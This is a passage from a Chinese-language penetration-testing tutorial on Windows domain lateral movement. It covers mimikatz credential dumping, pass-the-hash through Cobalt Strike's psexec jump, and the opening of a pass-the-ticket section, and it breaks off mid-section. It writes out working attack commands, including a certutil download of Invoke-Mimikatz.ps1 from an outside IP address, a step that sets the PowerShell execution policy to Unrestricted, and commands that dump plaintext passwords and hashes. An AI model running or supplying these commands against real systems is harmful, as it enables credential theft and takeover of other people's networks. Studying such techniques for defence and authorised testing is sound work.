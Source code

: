 （3）使用mimikatz在目标机直接读取SAM，导出Hash和 **明文密码** （不免杀）：

在目标机器上执行mimikatz，输入如下命令：

	mimikatz "sekurlsa::logonpasswords"

（4）使用powershell远程加载mimikatz抓取Hash和 **明文密码** ：

在目标机器上输入如下命令：

	# 先下载mimikatz脚本
	certutil.exe -urlcache -split -f http://49.234.105.98:8080/Invoke-Mimikatz.ps1
	# 设置powershell的执行策略为开放
	Set-ExecutionPolicy Unrestricted
	# 导入并执行mimikatz
	powershell Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'

## PTH哈希传递
- windows server 2012 R2及之后的版本中，默认在内存中不会记录明文密码；
- 可以使用PTH进行权限验证，控制远程主机；
- 使用PTH无需破解散列值，可以直接控制远程主机；
- 如果安装了KB2871997补丁，则无法与远程计算机进行连接，无法对远程计算机使用psexec、wmi、smbexec、schtaskts、at等，也无法访问远程主机的文件共享；
- 安装了KB2871997可以使用SID为500的Administrator账号进行PTH；

这里演示使用CS内置的mimikatz进行PTH控制主机。首先使用CS的mimikatz导出Hash，如下所示（域管帐号）：

![mimikatz导出hash][p1]

然后在CS的targets处加上需要横向移动的目标机器：

![CS手动添加需要横向移动的target][p2]

选中添加的target主机，右键选择jump->psexec，填写如下设置：

![psexec][p3]

最终得到目标主机的beacon，如下所示(好像挺耗时的)：

![得到目标的beacon][p4]

Notice： **如果获得了DC的shell，那么可以用CS的dcsync god.org获取域内所有Hash**

## PTT票据传递
PTT不需要本地管理员权限即可进行。主要采用两种方式进行PTT。

（1）使用mimikatz进行PTT（我实验失败了=-=）

首先使用mimikatz导出内存中的已存在的票据，输入如下命令：

